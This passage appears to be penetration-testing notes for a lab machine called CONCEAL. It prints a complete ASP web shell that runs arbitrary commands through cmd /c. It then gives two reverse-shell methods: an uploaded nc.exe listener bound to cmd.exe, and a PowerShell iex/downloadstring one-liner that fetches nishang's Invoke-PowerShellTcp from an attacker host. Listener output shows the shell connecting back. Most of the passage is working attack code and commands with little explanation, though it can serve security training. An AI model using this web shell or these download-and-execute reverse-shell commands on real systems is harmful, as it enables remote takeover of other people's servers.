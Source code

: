 
<html>
<body>
<form action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</form>
<pre>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
</pre>
<br>
<b>Command Output:</b>
<br>
<pre>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write Server.HTMLEncode(thisDir)%>
</pre>
<br>
</body>
</html>
````
## USe nc


Upload nc.exec

Call it

````
http://10.10.10.116/upload/hello.asp?cmd=c%3A%5Cinetpub%5Cwwwroot%5Cupload%5Cnc.exe+-lnvp+12345+-e+cmd.exe
````

## Use nishang

````
Nishang Invoke-PowerShellTcp.ps1.

    Make a copy of it in the local directory.
    Add a line to the end: Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 443
    Start python3 -m http.server 80 in that same directory
    Start nc -lnvp 443
    Visit: http://10.10.10.116/upload/0xdf.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.15/Invoke-PowerShellTcp.ps1%27)

First the webserver is hit to get Invoke-PowerShellTcp.ps1:

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.116 - - [14/Jan/2019 09:49:41] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -

Then nc gets the callback:

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.116.
Ncat: Connection from 10.10.10.116:49675.
Windows PowerShell running as user CONCEAL$ on CONCEAL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
